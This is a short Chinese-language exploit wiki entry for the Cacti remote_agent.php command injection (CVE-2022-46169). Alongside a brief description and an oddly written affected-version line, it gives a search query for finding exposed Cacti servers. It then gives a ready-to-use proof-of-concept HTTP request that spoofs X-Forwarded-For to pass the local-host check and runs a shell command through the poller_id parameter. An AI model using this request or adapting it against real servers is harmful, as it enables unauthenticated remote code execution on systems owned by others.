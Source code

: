 # Cacti remote_agent.php 远程命令执行漏洞 CVE-2022-46169

## 漏洞描述

Cacti是一个服务器监控与管理平台。在其1.2.17-1.2.22版本中存在一处命令注入漏洞，攻击者可以通过X-Forwarded-For请求头绕过服务端校验并在其中执行任意命令。

## 漏洞影响

<a-checkbox checked>Cacti < 1.2.17-1.2.22</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Cacti-监控系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1671182791178-ea22a02a-7451-4ad6-b9fb-03dcc3a17651.png)

验证POC

```python
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`id>1.txt`
X-Forwarded-For: 127.0.0.1
```

![img](/assets/PeiQi-Wiki/img/1671183300849-373782ab-7b1d-4166-88a7-34657bfb6025.png)

![img](/assets/PeiQi-Wiki/img/1671183331943-89eccd02-cf00-478f-8093-173a5c14bd47.png)